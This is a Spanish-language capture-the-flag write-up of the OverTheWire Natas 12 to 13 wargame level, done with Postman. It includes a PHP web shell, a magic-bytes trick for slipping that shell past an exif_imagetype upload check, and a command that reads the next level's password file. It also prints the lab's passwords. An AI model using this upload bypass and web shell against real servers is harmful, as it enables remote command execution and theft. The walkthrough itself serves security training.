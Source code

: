 ```yaml
---
title: OverTheWire - Natas 12 -> 13 (sin navegador)
layout: post
description: La resolución de Natas 12 -> 13 sin el uso de un navegador web.
tags:
- OverTheWire
- Natas
- post
- writeups
---
```

# Información
---

> Las contraseñas cambian cada cierto tiempo, existe la posibilidad de que esta contraseña ya no sea válida

```
Username: natas13
Password: lW3jYRI02ZKDBb8VtQBU1f6eDRo6WEj9
URL:      http://natas13.natas.labs.overthewire.org
```

# Solución
---

Abrimos Postman, pegamos la URL e ingresamos nuestras credenciales.

![](/images/images-otw-natas/natas12-13-1.png)

En la respuesta observamos un formulario para subir una imagen y el código fuente de la aplicación.

![](/images/images-otw-natas/natas12-13-2.png)

Para subir una imagen vamos a la pestaña **Body** y seleccionamos la opción **form-data**.

![](/images/images-otw-natas/natas12-13-3.png)

Antes de subir la imagen creamos un archivo php con el fin de intentar poder ejecutar comandos en el servidor.

```php
<?php
echo shell_exec($_REQUEST["cmd"]);
?>
```

Volvemos a Postman y en el campo **Key** seleccionamos **File**.

![](/images/images-otw-natas/natas12-13-4.png)

Hacemos click en el botón **Select Files**.

![](/images/images-otw-natas/natas12-13-5.png)

Debemos poner los mismos nombre que se muestran en el formulario.

![](/images/images-otw-natas/natas12-13-6.png)

Como nombre le colocaremos `test.php`, aunque la página nos pide que sea una imagen JPEG intentaremos subir un archivo php.

![](/images/images-otw-natas/natas12-13-7.png)

Cambiamos el método a **POST** y enviamos la petición.

![](/images/images-otw-natas/natas12-13-8.png)

Pero no nos deja.

![](/images/images-otw-natas/natas12-13-9.png)

Le damos un vistazo al código fuente.

![](/images/images-otw-natas/natas12-13-10.png)

Vemos que se usa la función `exif_imagetype` para verificar que el archivo es una imagen.

![](/images/images-otw-natas/natas12-13-11.png)

Buscando en google una forma de bypasear esta función nos encontramos con una pregunta en StackOverFlow.

![](/images/images-otw-natas/natas12-13-12.png)

Nos encontramos con una respuesta donde nos indica que debemos agregar algo llamado **Magic Bytes** al principio del archivo.

![](/images/images-otw-natas/natas12-13-13.png)

Escribimos los comandos como nos dice la respuesta.

```python
fh = open('shell.php', 'wb')
fh.write(b'\xFF\xD8\xFF\xE0' + b'<? passthru($_GET["cmd"]); ?>')
fh.close()
```

![](/images/images-otw-natas/natas12-13-14.png)

Volvemos a la página principal y borramos el archivo que habíamos subido.

![](/images/images-otw-natas/natas12-13-16.png)

Agregamos el archivo que acabamos de crear.

![](/images/images-otw-natas/natas12-13-17.png)

Lo enviamos.

![](/images/images-otw-natas/natas12-13-18.png)

El archivo se ha subido exitosamente y la página nos muestra la ruta donde está ubicada.

![](/images/images-otw-natas/natas12-13-19.png)

Vemos que el archivo existe.

![](/images/images-otw-natas/natas12-13-20.png)

Agregando el parámetro `?cmd=` podremos ejecutar el comando que queramos.

![](/images/images-otw-natas/natas12-13-21.png)

Y ejecutamos el comando `cat /etc/natas_webpass/natas14` para visualizar la contraseña del siguiente nivel.

![](/images/images-otw-natas/natas12-13-22.png)

# Contraseña
---

`qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP`

---

## [Anterior](/level-11-12)
## [Siguiente](/level-13-14)